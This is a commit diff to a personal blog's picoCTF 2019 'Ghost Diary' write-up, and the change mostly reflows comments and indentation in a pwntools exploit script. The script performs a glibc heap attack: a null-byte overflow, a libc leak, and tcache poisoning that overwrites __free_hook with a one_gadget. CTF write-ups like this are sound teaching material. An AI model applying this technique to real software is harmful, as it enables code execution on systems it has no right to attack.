

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-10-12-picoctf-2019-ghostdiary.markdown, in a window 1280 px wide and 1400 px high, scrolled down 20568 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fixed comments on ghost diary

```diff
--- a/_posts/2019-10-12-picoctf-2019-ghostdiary.markdown
+++ b/_posts/2019-10-12-picoctf-2019-ghostdiary.markdown
@@ -734,46 +734,46 @@ elf = ELF('./ghostdiary')
 p = process('./ghostdiary')
 libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
 
-# Credits to teamrocketist for the following two functions, they help immensely when trying to
-# debug exploits
+# Credits to teamrocketist for the following two functions, they help immensely when trying
+# to debug exploits
 def get_base_address(proc):
-	return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)
+  return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)
 
 def debug(breakpoints):
-    script = ""
-    PIE = get_base_address(p)
-    for bp in breakpoints:
-        script += "b *0x%x\n"%(PIE+bp)
-    gdb.attach(p,gdbscript=script)
+  script = ""
+  PIE = get_base_address(p)
+  for bp in breakpoints:
+    script += "b *0x%x\n"%(PIE+bp)
+  gdb.attach(p,gdbscript=script)
 
 # Application logic functions
 def add(size):
+  p.sendlineafter('> ', '1')
+
+  if size <= 0xf0:
     p.sendlineafter('> ', '1')
+  else:
+    p.sendlineafter('> ', '2')
 
-    if size <= 0xf0:
-        p.sendlineafter('> ', '1')
-    else:
-        p.sendlineafter('> ', '2')
-
-    p.sendlineafter(': ', str(size))
+  p.sendlineafter(': ', str(size))
 
 def talk(page, content):
-    p.sendlineafter('> ', '2')
-    p.sendlineafter(': ', str(page))
-    p.sendafter(': ', str(content))
+  p.sendlineafter('> ', '2')
+  p.sendlineafter(': ', str(page))
+  p.sendafter(': ', str(content))
 
 def listen(page):
-    p.sendlineafter('> ', '3')
-    p.sendlineafter(': ', str(page))
-    content = p.recvline().split(': ')[1].strip('\n')
-    return content
+  p.sendlineafter('> ', '3')
+  p.sendlineafter(': ', str(page))
+  content = p.recvline().split(': ')[1].strip('\n')
+  return content
 
 def free(page):
-    p.sendlineafter('> ', '4')
-    p.sendlineafter(': ', str(page))
+  p.sendlineafter('> ', '4')
+  p.sendlineafter(': ', str(page))
 
 if args.GDB:
-    debug([0x1024])
+  debug([0x1024])
 
 # Exploit goes here
 
@@ -783,56 +783,62 @@ add(0x118) # B, idx 1
 add(0x118) # C, idx 2
 
 # Fill up tcache bin 0xf0
-# This is done because the NULL byte overflow will set the PREV_INUSE bit of the next chunk to 0
-# Meaning that it will change the next chunks size to 0x100, and 0x100 chunks go into the 0xf0 tcache bin
-# We prevent it from going into this tcache bin because we want that chunk to consolidate backwards
+# Done because the NULL byte overflow will unset the PREV_INUSE bit of the next chunk
+# Meaning that it will change the next chunks size to 0x100
+# 0x100 chunks go into the 0xf0 tcache bin
+# We prevent this since we want backwards cnosolidation to occur
 # This will be evident further below
 for i in range(7):
-	add(0xf0)
+  add(0xf0)
 for i in range(7):
-	free(i+3)
+  free(i+3)
 
 # Fill up tcache bin 0x128
 # We do this because of the same reason above
 for i in range(7):
-	add(0x128)
+  add(0x128)
 for i in range(7):
-	free(i+3)
+  free(i+3)
 
 # Make chunk A go into unsorted bin
 # This is important because we are consolidating chunk C back with both chunks A and B
-# Meaning that chunk A needs to already be free, i.e B's PREV_INUSE bit must be set to 0
-# This free will also put a libc pointer into chunk A's forward and back pointers
+# Meaning that unlink will be called
+# unlink has some security checks, one being that A's fd and bk must have valid pointers
+# This free will put the pointers to `main_arena+0x58` into the fd and bk of A
 free(0)
 
-# Null byte overflow onto chunk C. C's size is now 0x100. C's prev_size is also set to 0x250
+# Null byte overflow onto chunk C.
+# C's size is now 0x100.
+# C's prev_size is also set to 0x250
 talk(1, 'B'*0x110 + p64(0x250))
 
-# Before we free chunk C, we must ensure that there is a fake chunk 0x100 bytes after chunk C
+# Before we free chunk C, we must create a fake chunk 0x100 bytes after chunk C
 # This fake chunk must have its PREV_INUSE bit set to 1, hence we choose size 0x21
-# The fake chunk is required because chunk C will go into the unsorted bin, which checks to make sure
-# that the next chunk's PREV_INUSE bit is set, else it will suspect a double free has occurred
+# This is required to bypass some checks when a chunk is freed into the unsorted bin
 talk(2, 'C'*0xf8 + p64(0x21) + '\n')
 
-# We free C now. Since the prev_size field for C is set to 0x250, this will cause C to consolidate backwards
-# by 0x250 bytes, which gives us a chunk in the unsorted bin that has the size 0x350. Now we can allocate
-# any chunks less than that size (given that the corresponding tcache bin is full) and have the unsorted bin
-# service our requests. Remember that we still have a pointer to chunk B.
+# We free C now.
+# C's prev_size is 0x250, so it will consolidate backwards 0x250 bytes (all the way up to A)
+# Unsorted bin will now have a 0x350 sized chunk right on top of A
+# A's fd and bk pointers will still have pointers to `main_arena+0x58`
 free(2)
 
-# Empty the 0x128 tcache bin
+# Empty the 0x128 tcache bin so we can get chunks out of the unsorted bin
 # Indexes taken up: 0, 2, 3, 4, 5, 6, 7
 for i in range(7):
-	add(0x128)
+  add(0x128)
 
-# Now adding a chunk of size 0x128 gives us a chunk from the unsorted bin since the tcache bin is empty
-# In this case, unsorted bin will have a 0x350 sized chunk starting at wherever chunk A is
-# We first add a 0x128 sized chunk so that the libc address gets moved down into where chunk B is
+# Now adding a chunk of size 0x128 gives us a chunk from the unsorted bin
+# In this case, unsorted bin will have a 0x350 sized chunk on chunk A
+# We first add a 0x128 sized chunk so that the libc address gets moved down to chunk B
 # This happens because now the unsorted bin will have a chunk starting at chunk B
 add(0x128) # idx 8
 
-# Now since we have a pointer to chunk B, we can simply read the libc address that got moved down into it
+# Now since we have a pointer to chunk B, we can leak the the fd pointer
+# Remember the fd pointer just points to `main_arena+0x58`
 libc_leak = u64(listen(1).ljust(8, '\x00'))
+
+# Calculate needed offsets
 libc.address = libc_leak - 0x3ebca0
 one_gadget = libc.address + 0x4f322
 free_hook = libc.symbols['__free_hook']
@@ -843,15 +849,16 @@ log.info('one gadget: ' + hex(one_gadget))
 log.info('free_hook: ' + hex(free_hook))
 
 # Fill up the 0x128 tcache bin again
-# We do this to make subsequent mallocs easier to use (i.e their indexes are easier to visualise)
+# We do this to make subsequent mallocs easier to use
+# It is easier to visualise the indexes in my opinion
 # Indexes freed: 0, 2, 3, 4, 5, 6, 7
 free(0)
 for i in range(2, 8):
-	free(i)
+  free(i)
 
-# Add overlapped chunk with B
-# We use size 0x1d8 because we want to do the tcache poisoning attack, thus we create this new 0x1d8 tcache bin
-# Otherwise there are some checks to bypass if we do an unsorted bin attack (for example)
+# Add overlapped chunk with B with size 0x1d8, this creates a new tcache bin when freed
+# The new tcache bin is used for the tcache poisoning attack
+# Otherwise there are some checks to bypass if we do an fastbin attack (for example)
 # It's just easier to do it with the tcache bins
 add(0x1d8) # idx 0, overlapped with the starting chunk B
 
@@ -865,7 +872,7 @@ add(0x1d8) # idx 0
 talk(0, p64(free_hook) + '\n')
 
 # Two more chunks and we get a chunk on __free_hook
-add(0x1d8) # 1, overlapped chunk with idx 0 again
+add(0x1d8) # 1, overlapped chunk with chunk B again
 add(0x1d8) # 2, chunk on __free_hook
 
 # Overwrite __free_hook with one_gadget
```
